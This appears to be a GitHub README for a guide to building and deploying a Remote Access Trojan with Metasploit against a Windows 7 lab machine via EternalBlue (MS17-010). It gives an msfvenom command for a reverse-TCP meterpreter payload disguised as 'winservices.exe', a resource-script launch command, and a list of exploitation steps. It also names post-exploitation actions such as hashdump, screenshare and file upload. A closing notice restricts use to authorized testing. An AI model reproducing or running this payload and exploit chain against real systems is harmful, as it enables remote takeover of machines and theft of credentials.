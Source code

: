# Metasploit RAT Guide

This repository contains a guide for creating and deploying a Remote Access Trojan (RAT) using Metasploit Framework to exploit a Windows 7 virtual machine via the MS17-010 (EternalBlue) vulnerability.

## Files
- `Metasploit_RAT_Guide.docx`: A Word document detailing the steps to create and deploy a RAT.
- `commands.rc`: A Metasploit resource script for exploiting MS17-010.
- `images/`: Screenshots illustrating the process (image1.png to image27.png).

## Usage
1. Read `Metasploit_RAT_Guide.docx` for detailed instructions.
2. Create the Trojan payload:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.206.131 LPORT=4444 -f exe -o winservices.exe

msfconsole -r commands.rc

Use post-exploitation commands like getuid, upload, screenshot, screenshare, hashdump, ps, kill, or reboot.
Steps Overview
Scan the target (Windows 7) with nmap to find open ports.
Create a payload (winservices.exe) using msfvenom.
Exploit MS17-010 using exploit/windows/smb/ms17_010_eternalblue.
Upload and execute the payload to establish a Meterpreter session.
Perform post-exploitation tasks (e.g., screenshot, hashdump, process management).
Screenshots
Nmap scan:
Exploit execution:
Meterpreter session:
(See images/ for all 27 screenshots)
Legal Notice
WARNING: This guide is for educational purposes only. Use Metasploit and related tools only for authorized penetration testing on systems you have explicit permission to test. Unauthorized use is illegal and unethical.

